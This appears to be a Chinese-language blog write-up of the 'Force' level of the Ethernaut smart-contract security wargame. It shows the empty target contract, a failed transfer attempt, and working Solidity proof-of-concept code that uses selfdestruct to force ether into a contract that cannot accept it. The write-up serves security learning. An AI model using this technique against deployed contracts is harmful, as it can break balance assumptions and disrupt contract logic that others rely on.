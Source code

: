 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-7'
date: 2022-12-10 13:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'








---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第七关Force  思路与POC

##### 目标: 想办法增加合约余额

#### 先看代码:

##### 好吧 没有代码 :six:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

#### 问题在于一个空合约该如何接收转账:question:

##### 先直接转账试一试

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceTranfer {

   receive() external payable {
       
   }
  //call函数转账失败 目标合约是空合约 没有payable标识的方法
    function transferTo(address payable dest ) public{
        
        dest.call{value : address(this).balance}("");
    }

```

##### 没有用 交易虽然成功但是转账金额被revert

![info](./assets/1670659062482.png)

#### 通过查阅文档发现如果将一个合约自毁的话是会将余额转账到备份合约上的 ,而且`selfdestruct`函数是直接操作字节码的.

#### :link:https://docs.soliditylang.org/en/v0.8.17/introduction-to-smart-contracts.html?highlight=self#deactivate-and-self-destruct

##### 试一试:

```solidity
 function selfDestroy(address payable addr ) public {
    
    selfdestruct(addr);
  }
```

##### 成功:+1:

![info2](./assets/1670659498827.png)

![info3](./assets/1670659599586.png)